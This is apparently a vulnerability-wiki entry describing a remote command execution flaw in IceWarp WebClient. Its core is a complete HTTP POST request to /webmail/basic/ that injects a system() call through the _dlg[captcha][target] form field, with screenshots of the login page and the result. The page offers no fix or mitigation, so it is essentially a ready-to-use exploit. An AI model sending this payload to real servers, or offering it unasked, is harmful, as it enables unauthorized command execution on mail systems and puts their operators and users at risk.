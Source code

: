 # IceWarp WebClient basic remote command execution vulnerability

## Vulnerability Description

IceWarp WebClient has a remote command execution vulnerability, and an attacker can construct a special request to execute remote commands.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">IceWarp WebClient</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313133616786.png)



The vulnerability request package is

```plain
POST /webmail/basic/ HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313133616760.png)